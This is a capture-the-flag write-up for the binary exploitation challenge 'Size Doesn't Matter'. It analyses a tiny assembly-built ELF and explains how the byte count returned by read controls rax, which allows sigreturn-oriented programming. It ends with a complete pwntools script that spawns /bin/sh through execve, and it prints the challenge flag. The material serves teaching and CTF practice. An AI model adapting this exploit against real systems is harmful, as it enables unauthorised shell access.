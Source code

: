```yaml
---
title: Size Doesn't Matter
categories: Binary Exploitation
tags: 
completedDuringEvent: true
submitted: true
flags: flag: p_ctf{t1n¥_c0d3_bu+_str0ng_3n0ugh!}
draft: false
---
```

It would be a good idea to start by identifying the given binary type.

```sh
$ file chall                
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

$ strings chall         
I'm small, aren't I? Nobody expects me to do anything...
I guess I'll just stay here, too small to matter. Figures.
Guess I was right... I'm just too small for you to care.
test.asm
msg_len
msg2
msg2_len
msg3
msg3_len
buffer
__bss_start
_edata
_end
.symtab
.strtab
.shstrtab
.text
.data
.bss
```

It turns out that the given binary file is very small, in the `strings` command we can see that there is `test.asm` which may be the source code of this binary. So it can be concluded that this binary is a binary compiled from assembly.

It's time for us to do binary analysis using **IDA Pro**.

```c
void __noreturn start()
{
  signed __int64 v0; // rax
  signed __int64 v1; // rax
  signed __int64 v2; // rax
  signed __int64 v3; // rax
  size_t v4; // rdx
  signed __int64 v5; // rax
  signed __int64 v6; // rax
  signed __int64 v7; // rax
  char v8; // [rsp-1F4h] [rbp-1F4h] BYREF

  v0 = sys_write(1u, msg, 0x3AuLL);
  v1 = sys_read(0, &v8, 0x1F3uLL);
  v2 = sys_write(1u, msg2, 0x3CuLL);
  v3 = sys_read(0, _bss_start, 0x10uLL);
  v5 = sys_read(0, _bss_start, v4);
  v6 = sys_write(1u, msg3, 0x39uLL);
  v7 = sys_exit(0);
}
```

From the assembly code above, we can see that this binary performs `read` and `write` syscalls to read input from the user and write output to the user.

![alt text](image.png)

But there is something interesting here where in the `sys_read(0, _bss_start, 0x10uLL);` section we can see that this binary reads 0x10 bytes (16 bytes) of user input to `_bss_start` which is part of the `.bss` section. After `sys_read` is complete, this binary does `sys_read(0, _bss_start, v4);` where when `sys_read` is called it will use the previous register used in `sys_read(0, _bss_start, 0x10uLL);`.

When `sys_read(0, _bss_start, 0x10uLL);` is finished being called then the `eax` or `rax` register will contain the same value as the number of bytes read by `sys_read`.

So `sys_read(0, _bss_start, v4);` will not always be `sys_read` but it will change to another `syscall` according to the value in the `rax` register.

After searching the internet there is a technique called [Sigreturn-Oriented Programming (SROP)](https://ir0nstone.gitbook.io/notes/binexp/stack/syscalls/sigreturn-oriented-programming-srop) where we can do the `syscall` we want using this technique.

We can create **Sigreturn Frame** using `SigreturnFrame` from the `pwn` library which will help us to create the payload we want. With `SigreturnFrame` we can set the register we want and do the syscall we want.

Here is the python script that I used to complete this challenge. We store the **Sigreturn Frame** in the first `sys_read` in the `v8` variable on the stack. After that we do a second `sys_read` to write the string `/bin/sh` to `_bss_start` (But we adjust it first so that the output of `rax` becomes the `sys_rt_sigreturn` syscall number 15) which we then use in the **Sigreturn Frame** to do the `execve` syscall which will run the shell.

```py
from pwn import *

binary = './chall'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('microp.ctf.prgy.in', 1337, ssl=True)

# gdb.attach(r, '''
#     b *_start+108
#     c
# ''')

frame = SigreturnFrame()
frame.rax = 59          # execve syscall number
frame.rdi = 0x4020B0    # Pointer to "/bin/sh" string (_bss_start)
frame.rsi = 0           # NULL argv
frame.rdx = 0           # NULL envp
frame.rip = 0x401098    # syscall instruction

payload_stage1 = bytes(frame).ljust(0x1F3, b'\x00')

r.recvuntil(b"I'm small, aren't I? Nobody expects me to do anything...")
r.send(payload_stage1)

payload_stage2 = b"/bin/sh\x00".ljust(15, b'\x00')

r.recvuntil(b"I guess I'll just stay here, too small to matter. Figures.")
r.send(payload_stage2) # Write /bin/sh to _bss_start

r.interactive()
r.close()
```
